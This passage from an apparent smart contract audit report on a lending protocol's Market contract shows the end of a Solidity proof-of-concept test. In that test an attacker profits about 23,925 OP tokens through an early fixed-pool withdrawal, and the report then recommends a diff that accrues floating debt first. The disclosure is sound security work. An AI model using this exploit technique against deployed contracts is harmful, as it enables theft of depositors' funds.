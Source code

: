 ```solidity
        vm.warp(maturity - 1 days);

        uint256 floatingLiquidityBefore = marketOP.previewRedeem(marketOP.balanceOf(address(this)));

        // Malicious user executes the attack (withdraws all from fixed pool before maturity)
        uint256 assetsDiscounted = marketOP.withdrawAtMaturity(maturity, positionAssets, 0, address(this), address(this));

        uint256 floatingLiquidityAfter = marketOP.previewRedeem(marketOP.balanceOf(address(this)));
        uint256 profits = floatingLiquidityAfter - floatingLiquidityBefore;

        // Before the attack, the attacker owned 1,003,236 OP tokens
        assertEq(floatingLiquidityBefore, 1_003_236.895405543416809745e18);

        // After the attack, the attacker owns 1,027,162 OP tokens
        assertEq(floatingLiquidityAfter, 1_027_162.288501014638447865e18);

        // The attacker has made a profit of 23,925 OP tokens
        assertEq(profits, 23_925.39309547122163812e18);

        // The cost of the attack (early withdraw) is 488 OP tokens
        assertEq(positionAssets - assetsDiscounted, 488.538063290105034868e18);
    }
}
```

**Note:** The values used on the PoC are intentionally chosen or inflated to demonstrate the bug in the implementation, and they do not affect the validity of this issue. 

## Code Snippet

https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L363

## Tool used

Manual Review

## Recommendation

To mitigate this issue is recommended to accrue the floating debt always before updating the value of `floatingBackupBorrowed`. An example of the implementation fix could be the following:

```diff

  function depositAtMaturity(
    uint256 maturity,
    uint256 assets,
    uint256 minAssetsRequired,
    address receiver
  ) external whenNotPaused whenNotFrozen returns (uint256 positionAssets) {
    // ...
      
+   depositToTreasury(updateFloatingDebt());

    floatingBackupBorrowed -= pool.deposit(assets);
    // ...
  }
  
  function withdrawAtMaturity(
    uint256 maturity,
    uint256 positionAssets,
```